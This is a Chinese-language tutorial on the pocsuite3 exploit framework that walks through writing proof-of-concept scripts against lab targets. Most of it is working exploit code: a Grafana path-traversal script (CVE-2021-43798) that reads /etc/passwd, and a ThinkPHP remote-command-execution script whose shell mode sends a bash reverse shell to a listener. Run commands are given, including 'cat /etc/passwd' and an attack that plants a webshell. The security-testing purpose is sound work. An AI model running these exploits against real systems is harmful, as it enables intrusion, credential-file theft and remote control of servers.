

**pocsuite3简单使用**

pocsuite3是由知道创宇404实验室开发维护的开源远程漏洞测试和概念验证开发框架，基于python3。poc脚本可以运行在 `attack`,`verify`, `shell` 等模式下。

官方链接`https://pocsuite.org/`

安装`pip3 install -i https://pypi.tuna.tsinghua.edu.cn/simple pocsuite3`

建议源码安装

```shell
wget https://github.com/knownsec/pocsuite3/archive/master.zip
unzip master.zip
cd pocsuite3-master
pip3 install -r requirements.txt
python3 setup.py install
```

验证安装是否成功，进入pocsuite3目录下`python3 cli.py -h`

也可以`pocsuite -r poc.py -u url`

**简单利用**

vulfocus开启一个thinkphp环境（CVE-2018-1002015）`https://vulfocus.cn/`



然后`python cli.py -r pocs/thinkphp_rce.py -u "123.58.224.8:3163" --attack`可以看到写入了小马。

**poc开发demo**

`https://pocsuite.org/guide/poc-demo-cve-2019-15107.html`

**CVE-2021-43798—poc开发**

靶机链接`https://vulfocus.cn/#/dashboard`

创建一个目录并进入，输入命令`pocsuite --new`初始化一个poc文件，其中的一些选项直接回车默认，只需要选中0任意文件读取即可。

稍微改动代码

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pocsuite3.api import (
    minimum_version_required, POCBase, register_poc, requests, logger,
    OptString, OrderedDict,
    random_str,
)

minimum_version_required('1.9.10')


class DemoPOC(POCBase):
    vulID = '0'
    version = '1'
    author = ''
    vulDate = '2022-09-03'
    createDate = '2022-09-03'
    updateDate = '2022-09-03'
    references = []
    name = 'Pre-Auth Arbitrary File Read'
    appPowerLink = ''
    appName = ''
    appVersion = ''
    vulType = 'Arbitrary File Read'
    desc = 'Vulnerability description'
    samples = ['']
    install_requires = ['']
    pocDesc = 'User manual of poc'
    dork = {'zoomeye': ''}
    suricata_request = ''
    suricata_response = ''

    def _options(self):
        o = OrderedDict()
        o['filepath'] = OptString('/etc/passwd', description='The full path to the file to read')
        return o

    def _exploit(self, param=''):
        if not self._check(dork='Grafana'):
            return False
        res = requests.get({self.url}/public/plugins/grafana/../../../../../../../..{param})
        logger.debug(res.text)
        return res.text

    def _verify(self):
        result = {}
        param = '/etc/passwd'
        res = self._exploit(param)
        if res and ':/bin/' in res:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            result['VerifyInfo'][param] = res
        return self.parse_output(result)

    def _attack(self):
        result = {}
        param = self.get_option('filepath')
        res = self._exploit(param)
        result['VerifyInfo'] = {}
        result['VerifyInfo']['URL'] = self.url
        result['VerifyInfo'][param] = res
        return self.parse_output(result)

    def _shell(self):
        return self._verify()


register_poc(DemoPOC)
```

```
pocsuite -r 20220903_pre-auth_arbitrary_file_read.py -u http://123.58.224.8:38461 --verify
pocsuite -r 20220903_pre-auth_arbitrary_file_read.py -u http://123.58.224.8:38461 --attack
pocsuite -r 20220903_pre-auth_arbitrary_file_read.py -u http://123.58.224.8:38461 --attack --filepath '/etc/hosts'
```

**CVE-2018-1002015—poc**

vulfocus开启一个thinkphp环境（CVE-2018-1002015）

`pocsuite --new`，选择命令执行

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pocsuite3.api import (
    minimum_version_required, POCBase, register_poc, requests, logger,
    OptString, OrderedDict,
    random_str,
    get_listener_ip, get_listener_port, REVERSE_PAYLOAD
)

minimum_version_required('1.9.10')


class DemoPOC(POCBase):
    vulID = '0'
    version = '1'
    author = ''
    vulDate = '2022-09-03'
    createDate = '2022-09-03'
    updateDate = '2022-09-03'
    references = []
    name = 'Pre-Auth Command Execution'
    appPowerLink = ''
    appName = ''
    appVersion = ''
    vulType = 'Command Execution'
    desc = 'Vulnerability description'
    samples = ['']
    install_requires = ['']
    pocDesc = 'User manual of poc'
    dork = {'zoomeye': ''}
    suricata_request = ''
    suricata_response = ''

    def _options(self):
        o = OrderedDict()
        o['cmd'] = OptString('uname -a', description='The command to execute')
        return o

    def _exploit(self, param=''):
        if not self._check(dork=''):
            return False
        # pay attention to r''
        payload = r"/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]="+param
        res = requests.get(self.url+payload)
        logger.debug(res.text)
        return res.text

    def _verify(self):
        result = {}
        flag = random_str(6)
        param = f'echo {flag}'
        res = self._exploit(param)
        if res and flag in res:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            result['VerifyInfo'][param] = res
        return self.parse_output(result)

    def _attack(self):
        result = {}
        param = self.get_option('cmd')
        res = self._exploit(param)
        result['VerifyInfo'] = {}
        result['VerifyInfo']['URL'] = self.url
        result['VerifyInfo'][param] = res
        return self.parse_output(result)

    def _shell(self):
        try:
            self._exploit(REVERSE_PAYLOAD.BASH.format(get_listener_ip(), get_listener_port()))
        except Exception:
            pass


register_poc(DemoPOC)
```

```
pocsuite -r 20220903_pre-auth_command_execution.py -u 123.58.224.8:62796 --attack --cmd 'cat /etc/passwd'
```

